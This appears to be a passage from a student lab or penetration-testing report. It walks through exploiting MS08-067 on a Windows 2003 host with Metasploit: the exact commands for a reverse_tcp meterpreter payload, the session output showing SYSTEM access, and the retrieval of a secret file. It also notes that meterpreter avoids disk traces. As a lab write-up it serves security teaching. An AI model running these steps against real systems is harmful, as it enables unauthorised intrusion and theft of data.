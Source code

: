 We found that in port 445 it runs Windows 2003 or 2008 microsoft-ds service, which could exist a flaw. So we searched the Metasploit database and found an exploit called \lstinline{ms08_067_netapi}. It exploits a parsing flaw through the service.  To put it in a detail, in CPU, there is a secure technique called NX bit. It will divide memory into either the storage of data or the storage of processor instructions. The exploit bypasses NX by return to a function call inside a dll file which can disable NX\cite{NXBit}. As a consequence, the evil code will not be prevented and can be executed in the memory.
To make dll injection attack, we need to use meterpreter as our payload. It resides completely in the memory of the remote host and leaves no traces on the hard drive. Thus it becomes very difficult to detect.\cite{payload_meterpreter}
Here are the steps:
\begin{itemize}
	\item \lstinline{use exploit/windows/smb/ms08_067_netapi} 
	\item set RHOST 192.168.233.20
	\item \lstinline{set payload windows/meterpreter/reverse_tcp} 
	\item set LHOST 10.11.12.29
	\item run
	\par \begin{lstlisting}[language=sh,numbers=left,numberstyle=\tiny,columns=fullflexible,basicstyle=\footnotesize\ttfamily, breaklines=true, breakautoindent=true, breakindent=4em]
[*] Started reverse handler on 10.11.12.29:4444 
[*] Automatically detecting the target...
[*] Fingerprint: Windows 2003 - No Service Pack - lang:Unknown
[*] Selected Target: Windows 2003 SP0 Universal
[*] Attempting to trigger the vulnerability...
[*] Sending stage (752128 bytes) to 192.168.233.20
[*] Meterpreter session 2 opened (10.11.12.29:4444 -> 192.168.233.20:1069) at 2014-03-05 00:57:55 +0100
	\end{lstlisting}
	We now get the root access of the machine. By typing \textit{getuid} it shows \lstinline{NT AUTHORITY\SYSTEM}. And we can type other commands to browse the file or view its content. We use \textit{search -f secret.txt} command and found that there do have a file called secret.txt. We opened it, which showed the code: c5zmfVpkSJrFA.
	
\end{itemize}
